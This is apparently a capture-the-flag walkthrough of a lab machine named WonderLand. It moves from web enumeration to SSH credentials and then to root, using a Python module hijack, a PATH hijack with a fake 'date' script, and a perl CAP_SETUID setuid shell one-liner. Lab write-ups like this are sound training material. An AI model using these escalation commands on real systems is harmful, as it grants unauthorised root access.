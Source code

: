 ```yaml
---
description: '-Linux Priv Python'
---
```


# WonderLand

## Enumeration&#x20;

Found ssh and some port open

## Web Enumeration

\<ip>/r

then

\<ip>/a

\<ip>/b

gussed \<ip>/r/a/b/b/i/t which was correct

## Initial Foothold

`ctrl+u` found ssh login creds

## Priv Esc

sudo -l

We have priv to access python and an python script&#x20;

We open the python script and we see that it imports random module and as we know that as there is no specific file path it first searches in current directory

so we create python file random.py with code

```
import os

os.system("/bin/bash")
```

then run it as&#x20;

```
sudo -u rabbit <file path in sudo -l output>
```

we get access to rabbit

in rabbit's dir we have a bash script teaparty

we cat it and we can see that it calls date function without an specific file path

so we create date file with code

```
#bin/bash
/bin/bash
```

give it +x permissions

run the teaparty again and we see we have access to hatter and its password is saved in /home/hatter

&#x20;we try sudo -l but nothing found

then we transfer linpeas to tmp and run it

we found that we have perl `CAP_SETUID`

we search gtfo bins for perl then choose capabilities

we get&#x20;

```
cp $(which perl) .
sudo setcap cap_setuid+ep perl

./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Then we run in tmp folder

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
